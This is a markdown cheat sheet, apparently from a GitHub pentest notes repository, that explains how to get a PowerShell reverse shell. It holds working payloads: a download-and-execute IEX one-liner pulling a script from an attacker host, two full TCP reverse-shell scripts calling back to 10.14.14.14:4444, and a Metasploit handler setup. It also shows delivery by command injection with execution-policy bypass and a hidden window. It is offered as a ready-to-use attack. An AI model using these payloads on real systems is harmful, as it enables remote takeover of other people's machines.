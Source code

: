 # PowerShell Reverse Shell

## Option 1

1. Download [powershell_reverse_shell.ps1](https://gist.githubusercontent.com/egre55/c058744a4240af6515eb32b2d33fbed3/raw/2c6e4a2d6fd72ba0f103cce2afa3b492e347edc2/powershell_reverse_shell.ps1)

2. Start a listener on attacker machine

        nc -nlvp 3001

3. Execute following command on the remote machine to obtain a PowerShell reverse shell
   
        powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<ATTACKER_IP_ADDRESS>:4444/powershell_reverse_shell.ps1')"

## Option 2

1. Create `reverse_shell.ps1` PowerShell script with following content

        $client = New-Object System.Net.Sockets.TCPClient('10.14.14.14',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
        $sm=(New-Object Net.Sockets.TCPClient('10.14.14.14',4444)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}

2. Serve the file using a Python3 server (or anything else)

        python3 -m http.server 8000

3. Start `multi/handler` listener using Metasploit

        msfconsole
        use exploit/multi/handler
        set payload windows/shell/reverse_tcp
        set lhost <Attacker_IP>
        set lport 4444
        exploit -j  

4. Deliver exploit via command injection

        powershell.exe -executionpolicy bypass -w hidden "iex(New-Object System.Net.WebClient).DownloadString('http://10.14.14.14:8000/reverse_shell.ps1'); reverse_shell.ps1"

5. View the captured session in Metasploit

        sessions -l
        sessions -i 1

## General

* Execute a powershell script from command line

        > powershell -c Get-ExecutionPolicy
        > powershell -c Set-ExecutionPolicy -Scope CurrentUser Unrestricted
        > powershell -file "C:\Program Files (x86)\DAUM\test.ps1"

## References

* https://gist.githubusercontent.com/egre55/c058744a4240af6515eb32b2d33fbed3/raw/2c6e4a2d6fd72ba0f103cce2afa3b492e347edc2/powershell_reverse_shell.ps1
* https://blog.geoda-security.com/2019/03/reverse-shell-in-memory-utilizing.html